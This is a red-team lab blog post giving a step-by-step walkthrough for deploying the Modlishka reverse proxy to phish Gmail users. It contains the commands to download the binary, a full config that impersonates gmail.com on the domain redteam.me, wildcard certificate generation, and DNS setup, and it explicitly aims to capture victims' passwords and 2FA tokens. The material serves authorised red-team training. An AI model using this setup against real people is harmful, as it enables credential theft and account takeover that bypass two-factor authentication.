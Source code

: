 ```yaml
---
layout: post
title: "how to setup modliska reverse http proxy for phishing"
date: 2024-06-18
categories: red-team-infrastructure
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /red-team-infrastructure/
---
```


# Phishing with Modlishka Reverse HTTP Proxy

This lab shows how to setup a reverse HTTP proxy `Modlishka` that can be used in phishing campaigns to steal user passwords and 2FA tokens. Modlishka makes this possible, because it sits in the middle between the website you as an attacker are impersonating and the victim (MITM) while recording all the traffic/tokens/passwords that traverse it.

## Setup

Let's start off by building a new DigitalOcean droplet, the smallest is more than enough:

![](<../../.gitbook/assets/Annotation 2019-06-25 214151.png>)

Once logged on, install certbot and download modlishka binary itself:

```bash
apt install certbot
wget https://github.com/drk1wi/Modlishka/releases/download/v.1.1.0/Modlishka-linux-amd64
chmod +x Modlishka-linux-amd64 ; ls -lah
```

![](<../../.gitbook/assets/Annotation 2019-06-25 214300.png>)

## Modlishka Configuration

Let's create a configuration file for modlishka:

![](<../../.gitbook/assets/Annotation 2019-06-25 214425.png>)

{% code title="modlishka.json" %}
```javascript
{
  //domain that you will be tricking your victim of visiting
  "proxyDomain": "redteam.me",
  "listeningAddress": "0.0.0.0",

  //domain that you want your victim to think they are visiting
  "target": "gmail.com",
  "targetResources": "",
  "targetRules":         "PC9oZWFkPg==:",
  "terminateTriggers": "",
  "terminateRedirectUrl": "",
  "trackingCookie": "id",
  "trackingParam": "id",
  "jsRules":"",
  "forceHTTPS": false,
  "forceHTTP": false,
  "dynamicMode": false,
  "debug": true,
  "logPostOnly": false,
  "disableSecurity": false,
  "log": "requests.log",
  "plugins": "all",
  "cert": "",
  "certKey": "",
  "certPool": ""
}
```
{% endcode %}

## Wildcard Certificates

Important - let's generate a wildcard certificate for my domain I want my phishing victims to land on `*.redteam.me`:

```csharp
certbot certonly --manual --preferred-challenges=dns --server https://acme-v02.api.letsencrypt.org/directory --agree-tos -d *.redteam.me --email noreply@live.com
```

This will generate a challenge code as shown below:

![](<../../.gitbook/assets/Annotation 2019-06-25 214749.png>)

We need to create a DNS TXT record in the DNS management console for redteam.me, which in my case is in Digital Ocean:

![](<../../.gitbook/assets/Annotation 2019-06-25 214849.png>)

Once the DNS TXT record is created, continue with the certificate generation:

![](<../../.gitbook/assets/Annotation 2019-06-25 214924.png>)

Once certificates are generated, we need to convert them to a format suitable to be embedded into JSON objects:

```bash
awk '{printf "%s\\n", $0}' /etc/letsencrypt/live/redteam.me/fullchain.pem
awk '{printf "%s\\n", $0}' /etc/letsencrypt/live/redteam.me/privkey.pem
```

![](<../../.gitbook/assets/Annotation 2019-06-25 215107.png>)

Once that is done, copy over the contents of the certs into the config - `fullchain.pem` into the `cert` and `privkey.pem` into the `certKey`:

![](<../../.gitbook/assets/Annotation 2019-06-25 215155.png>)

## More DNS Records

Let's create an A record for the root host `@` that simply points to the droplet's IP:

![](<../../.gitbook/assets/Annotation 2019-06-25 215308.png>)

This is very important - we need a `CNAME` record for any host/subdomain `*` pointing to `@`

![](<../../.gitbook/assets/Annotation 2019-06-25 215702.png>)

## Launching Modlishka

We are now ready to start the test by launching modlishka and giving it the modlishka.json config file:

```csharp
./Modlishka-linux-amd64 -config modlishka.json
```

Below shows how by visiting a redteam.me, I get presented with contents of gmail.com - indicating that Modlishka and the MITM works. Again, it is important to call it out - we did not create any copies or templates of the targeted website - the victim is actually browsing gmail, it's just that it is being served through Modlishka where the traffic is inspected and passwords are captured:

![](../../.gitbook/assets/modlishka.gif)

## References

{% embed url="https://github.com/drk1wi/Modlishka" %}
@spotheplanet
